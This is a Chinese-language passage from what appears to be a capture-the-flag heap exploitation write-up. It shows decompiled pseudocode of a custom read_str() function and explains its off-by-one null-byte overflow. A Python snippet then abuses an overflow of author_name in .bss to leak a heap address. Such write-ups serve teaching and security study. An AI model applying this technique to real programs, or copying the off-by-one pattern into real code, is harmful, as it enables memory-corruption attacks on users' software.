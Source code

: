 #### `read_str`

在 `read_auther_name()`、`create()`、`edit` 这些函数中，都调用了一个自己实现的读取字符串的函数 `read_str()`。它传入的第一个参数是一个字符型指针，第二个参数都是 `指针分配的内存大小 - 1`。

它的伪代码如下：

```c
signed __int64 __fastcall read_str(_BYTE *ptr, int len_1)
{
  int i; // [rsp+14h] [rbp-Ch]
  _BYTE *buf; // [rsp+18h] [rbp-8h]

  if ( len_1 <= 0 )
    return 0LL;
  buf = ptr;
  for ( i = 0; ; ++i )
  {
    if ( (unsigned int)read(0, buf, 1uLL) != 1 )
      return 1LL;
    if ( *buf == '\n' )
      break;
    ++buf;
    if ( i == len_1 )
      break;
  }
  *buf = 0;
  return 0LL;
}
```

### 漏洞发现

我们仔细研究 `read_str()` 这个函数之后会发现，如果在达到输入的长度时，`for` 循环结束时应该是以下状态：

```
       +--------+         
     0 |        |         
       ----------         
   ... |        |         
       ----------         
  len-1|  top   |<----i   
       ----------         
  len  |overflow|<----buff
       +--------+
```

可见最后一个 `0` 字节是写向了缓冲区外部，是溢出了。这个函数是存在 `off-by-one` 漏洞的。

#### leak_heap

首先我们可以利用 `author_name` 在 `.bss` 区的溢出漏洞，打印 `GLOBAL_LIBRARY` 第一项的内容，而这一项是一个指向 `heap` 段的地址，通过这个方法我们可以泄露堆地址：

```python
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)
```
